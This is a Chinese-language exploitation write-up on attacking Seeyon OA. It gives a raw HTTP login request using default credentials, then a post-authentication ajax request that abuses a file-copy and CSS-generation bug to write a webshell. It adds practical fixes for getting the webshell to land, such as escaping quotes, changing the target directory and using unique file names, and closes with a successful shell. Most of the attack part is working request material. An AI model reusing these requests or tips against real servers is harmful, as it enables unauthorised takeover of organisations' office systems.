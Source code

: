 POST /seeyon/rest/authentication/ucpcLogin HTTP/1.1  
Host:  
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0  
Content-Length: 71  
Content-Type: application/x-www-form-urlencoded  
Accept-Encoding: gzip  
​  
UserAgentFrom=xx&login\_username=audit-admin&login\_password=seeyon123456

获取cookie之后就可以使用补丁较新的后台洞进行深入利用，这次使用copyfile这个后台洞

但实战后发现这个漏洞存在一些坑点，写入webshell时候报错了

POST /seeyon/ajax.do?method=ajaxAction&managerName=portalCssManager&rnd=111 HTTP/1.1  
Accept: \*/\*  
Content-Type: application/x-www-form-urlencoded;charset=UTF-8  
Content-Length: 70  
Host: 192.168.91.17  
Connection: Keep-Alive  
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0\_321)  
Accept-Encoding: gzip,deflate  
​  
arguments=%5B%22xxxxxx%22%5D&managerMethod=generateCssFileByCssStr

![image-20231108144907706](assets/1702861965-d9027a469b10af5e94376120edf8e928.png)

本地开环境调试一下，fuzz发现是双引号所导致，可通过前面加`\`解决，还有其他的问题总结如下：

-   写seeyon路径下会404，可以换写到root目录下
-   webshell的双引号需要前面加入反斜杠，即`“`换成`\"`
-   复制的文件名不能与之前的相同，否则会复制失败
-   `//`后需要进行换行

经过一首歌的时间，最终成功getshell
